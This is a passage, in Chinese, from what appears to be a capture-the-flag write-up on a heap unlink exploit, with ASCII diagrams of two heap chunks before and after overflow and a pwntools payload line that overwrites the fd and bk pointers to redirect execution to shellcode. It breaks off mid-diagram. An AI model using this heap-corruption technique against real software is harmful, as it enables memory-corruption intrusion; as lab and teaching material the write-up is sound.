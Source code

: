 我们利用第一个指针进行写入，也就是：``*(bk+0)=fd``。换而言之就是``*(ebp-4)=shellcode-4``。

得出我们需要填入的是fd = chunk A堆地址+12；bk = chunk A栈地址 + 0x10

初始情况下的chunk A :

data A on heap:

———————————     <=A

|       FD       |      BK       |    

———————————     <=A->buf , A+0x8

|   put shellcode here     |

|    length of buf is 0x8   |

———————————     

| presizeB    |     sizeB    |    

———————————     <=B , A+0x8+0x8+0x8

|       FD       |      BK       |    

———————————     <=B->buf

|                                      |

———————————

好，我们现在构造payload：

```
# 'a'用作填充chunk A剩余空间到达chunk B堆顶；
payload = p32(shell_addr)+'a'*12+p32(heap_addr + 12)+p32(stack_addr + 0x10)
```

溢出覆写之后的chunk A：

data A on heap:

———————————     <=A

|       FD       |      BK       |    

———————————     <=A->buf , A+0x8

|    shellcode (4 byte)     |

|   AAAA (4 byte junk)    |

———————————     

|   AAAA      |    AAAA     |    
